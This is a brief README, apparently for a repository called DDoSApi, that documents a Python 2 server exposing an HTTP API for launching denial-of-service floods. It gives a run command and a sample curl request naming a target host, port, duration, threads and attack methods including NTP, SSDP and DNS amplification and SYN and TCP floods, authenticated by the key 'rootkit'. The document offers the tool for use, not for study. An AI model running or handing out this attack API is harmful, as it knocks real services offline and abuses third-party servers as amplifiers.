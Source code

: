 命令执行接口调用

### Env
* Centos 6/7
* Python 2.6/2.7+

### Run
```
# /opt/DDoSApi/RunServer
```

### Call Api Example
```
# curl -sd "key=rootkit&host=[IP]&port=[PORT]&time=[time/sec]&thread=[threads]&method=[ntp|ssdp|dns|syn|tcp]" http://ServerIp:Port/api
```
